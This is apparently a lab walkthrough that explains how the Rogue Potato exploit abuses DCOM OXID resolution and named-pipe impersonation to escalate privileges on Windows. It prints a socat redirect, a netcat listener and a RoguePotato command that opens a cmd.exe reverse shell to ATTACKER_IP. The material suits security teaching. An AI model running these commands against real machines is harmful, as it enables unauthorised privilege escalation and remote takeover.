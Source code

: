 # Rogue Potato

- The exploit will force the victim machine to try and instantiate an object through DCOM against the attacker's machine. To know how to connect to that specific object, the client machine will perform a process known as Object eXporter IDentifier (OXID) resolution. Simpy put, OXID resolution is the process in which a client machine sends the OXID they want to connect to, and receives instructions from the server on how to actually contact the object in question, which in this case is achieved through a named pipe. OXID resolution occurs through port 135/TCP.
- The OXID resolver (controlled by the attacker) will spoof a response to force a connection against a non-existent named pipe that the exploit itself will register in the target system. The named pipe will require authentication, which will then be used to impersonate the connecting user.
- Port 135 is used in any default Windows installation, making it impossible to bind the fake OXID resolver on the same target machine. To overcome this, the exploit will connect back to the attacker machine, which will need to redirect the OXID resolution query back to the target machine on a different port than 135. This can be easily done using socat.

With this in mind, let's start by setting up socat to forward any connection on port 135 of the attacker's machine back to the victim on an arbitrary port, say 9999:
`sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.234.3:9999`

We'll start a netcat listener to receive a reverse shell on our attacker's machine:
`nc -lnvp 4448`

And finally with our web shell to trigger the rougue potato exploit
`c:\tools\roguepotato\RoguePotato.exe -r ATTACKER_IP -e "C:\tools\nc64 -e cmd.exe ATTACKER_IP 4448" -l 9999`

The -l parameter specifies the port on the victim machine where the OXID resolver will listen, which in this case is port 9999. The -r parameter indicates the remote OXID resolver address and points to our attacker machine, which will forward the connection through socat and back to the victim on port 9999. The -e parameter allows us to specify the payload to be run by the exploit, in this case, a netcat reverse shell.


